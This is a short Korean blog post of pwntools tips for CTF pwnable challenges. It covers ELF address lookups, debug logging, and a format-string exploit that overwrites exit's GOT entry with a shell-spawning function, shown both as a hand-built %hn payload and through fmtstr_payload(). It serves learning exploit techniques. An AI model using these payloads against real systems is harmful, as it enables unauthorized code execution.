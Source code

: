 ```yaml
---
layout: post
title:  "Pwntools Usage"
date:   2020-10-01
categories: ["2020","tips","pwnable"]
update:   2020-10-01
comment: true
tags: [tips,pwnable]
---
```


## Pwntools Usage

❗ FSB 문제를 풀다가 새로 알게 된 pwntools의 기능이 있어 정리하고 이참에 pwntools 기능들 배우는 거 있을 때마다 여기에 업데이트 하려고 한다. 

---

### ELF

바이너리의 `got`, `bss` 등 여러 주소를 구할 때 `ELF()`를 쓰면 편하다.

```python
from pwn import *

e=ELF('binary') 
puts_got =e.got['puts'] # get puts got addr (same with plt)
bss_addr = e.bss() # get bss addr
func_addr = e.symbols['func'] # get custom func addr
```

 주로 위 3가지를 많이 쓴다. 주소들을 정수로 반환해줘서 바로 packing에 사용할 수 있다.

---

### DEBUG

pwntools에는 디버깅할 때 유용한 기능도 많이 제공한다.

``` python
from pwn import *

context.log_level="debug" # give useful info for debugging
log.info('some_string') # logging message (much better than print())
```

`context.log_level="debug"`는 python 파일을 실행하고 내가 `send`할 때나 `recv`할 때, 자세한 정보를 보여줘서 디버깅할 때 편하다.

`log.info()`는 그냥 `print()`로 확인하는 거보다 간지나는 로깅 메시지를 남길 수 있다.

가장 중요한 **gdb.attach() & raw_input()** :

> 🚀 참고
>
> https://cosyp.tistory.com/229

내가 저 사람보다 자세히 쓸 자신이 없다 ! 😁

---

### FSB (Format String Bug) with Pwntools

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

`Partial RELRO`가 걸려있기 때문에 `got` 주소를 덮어야 겠다고 생각하고 코드를 보면, **FSB**가 발생해서 `got`를 덮을 수 있다. 쉘을 따주는 함수도 있었기 때문에 그 함수 주소로 main함수 마지막에 실행하는 `exit`함수의 `got`를 덮어 쉘을 따려고 했다. 

나는 평소에 **FSB**를 사용할 때 `%hn`으로 2바이트씩 안 덮고 한꺼번에 `%n`로 4바이트를 덮었다. 근데 이 문제에서는 그렇게 하니까 안 된다. 이유는 정확히는 모르겠지만 시간제한 때문인 거 같다.. 그래서 `%hn`으로 2바이트씩 덮어줬고 성공했다.

즉 페이로드가 다음과 같다:

```python
payload+=p32(exit_got+2)
payload+=p32(exit_got)
payload+="%2044c"
payload+="%1$hn"
payload+="%32261c"
payload+="%2$hn"
```

**But** pwntools에는 이 페이로드를 알아서 짜주는 짱짱 기능이 있었다. 😂

``` python
# offset = 1, overwrite exit_got to get_shell
payload=fmtstr_payload(1,{exit_got:get_shell})
```

`fmtstr_payload()`라는 함수에 offset과 덮을 함수를 주면 알아서 페이로드를 짜준다.... 미쳐따 그냥

여기서 offset은 `ESP+0x4*(offset)`이라고 생각하면 된다. 즉 `%x`를 했을 때 첫번 째 `%x`에서 buf의 시작지점의 문자열이 출력되었기 때문에 offset이 1이다.

